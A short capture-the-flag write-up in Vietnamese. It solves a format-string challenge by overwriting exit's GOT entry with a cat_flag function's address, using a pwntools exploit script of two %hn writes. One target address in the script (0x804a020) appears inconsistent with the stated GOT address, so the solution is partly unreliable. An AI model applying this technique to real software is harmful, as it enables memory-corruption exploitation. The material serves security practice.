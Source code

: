 # solution

ghi đè địa chỉ hàm `cat_flag` vào địa chỉ của exit trong bảng got.
`cat_flag` có địa chỉ `0x0804849b`. Ta chia địa chỉ này thành 2 phần và ghi 2 lần. Mỗi lần ghi 2 byte. `0x0804` sẽ được ghi trước do số này có giá trị nhỏ hơn.

![Alt text](image.png)

`exit@got` có địa chỉ: `0x804a018`

## chạy là ra

```python
from pwn import *
#context.log_level = 'debug'
p = process("./Formatstring-write-got-without-leak")

# write 0x0804849b to 0x804a018

payload = p32(0x804a020)
payload += p32(0x804a018)
payload += "%{}c%4$hn".format(0x0804 -8).encode()
payload += "%{}c%5$hn".format(0x849b - 0x0804).encode()


p.send(payload)
# p.recvuntil(b'end')
p.interactive()
```
